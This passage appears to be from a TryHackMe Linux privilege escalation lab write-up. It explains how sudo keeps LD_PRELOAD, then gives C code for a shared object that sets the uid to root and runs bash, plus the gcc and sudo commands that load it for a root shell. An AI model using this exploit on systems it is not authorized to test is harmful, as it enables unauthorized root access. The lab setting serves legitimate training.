 ![Sudo Environment Variable](../../assets/images/thm/linuxprivesc/30-sudo_env.png)

In the above example, the *LD_PRELOAD* and *LD_LIBRARY_PATH* are both inherited from the user's environment. *LD_PRELOAD* loads a shared object before any others when a program is run. *LD_LIBRARY_PATH* provides a list of directories where shared libraries are searched for first.

We can exploit this by creating a shared object using the following code. Save the code to a file in `/tmp/preload.c`.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Then create the shared object using the following syntax:

```console
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
```
![Sudo Env Shared Object](../../assets/images/thm/linuxprivesc/31-sudo_env_shared_object.png)

We can now spawn an interactive shell by running one of the programs listed when we run the `sudo -l` command, while setting the *LD_PRELOAD* environment to the full path of the new shared object. The interactive shell will be spawned with root privileges due to the listed binary executing with root permissions. Let's see this in action.

```console
sudo LD_PRELOAD=/tmp/preload.so [binary_name]
```
![Sudo Env Shared Object Root](../../assets/images/thm/linuxprivesc/32-sudo_env_shared_object_root.png)
